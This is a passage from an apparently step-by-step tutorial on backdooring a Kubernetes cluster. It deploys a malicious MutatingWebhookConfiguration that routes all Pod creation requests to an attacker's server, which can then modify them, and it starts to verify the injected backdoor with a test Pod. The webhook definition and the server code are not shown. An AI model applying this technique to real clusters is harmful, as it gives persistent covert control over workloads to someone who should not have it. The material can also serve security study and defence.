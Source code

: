 **Why:**

This configuration tells Kubernetes to forward Pod creation requests to the malicious webhook server. The server then has the opportunity to modify the Pod definition.

**Important:**

Replace `<your-server-ip>` with the actual IP address of the server running the malicious webhook.  In a real-world scenario, using HTTPS with proper certificate validation is expected for production environments. However, for this demonstration, we are using HTTP for simplicity. Ensure the Kubernetes cluster can resolve the specified hostname or IP address.

**Contribution:**

This YAML provides the definition for the malicious webhook, targeting Pod creations across the cluster.

**Step 6: Deploy the MutatingWebhookConfiguration**

```bash
kubectl apply -f malicious-webhook.yaml
```

**Explanation:**

This command deploys the MutatingWebhookConfiguration to the Kubernetes cluster.

**Why:**

This activates the webhook, causing all subsequent Pod creation requests to be sent to the malicious server.

**Expected Output:**

```
mutatingwebhookconfiguration.admissionregistration.k8s.io/malicious-webhook created
```

**Contribution:**

Enables the malicious webhook to intercept and modify Pod creation requests.

**Step 7: Verify the Backdoor Injection**

Create a simple Pod definition (e.g., `test-pod.yaml`):

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: test-pod
spec:
  containers:
  - name: test-container
    image: nginx
```

Apply the Pod definition:

```bash
kubectl apply -f test-pod.yaml
```
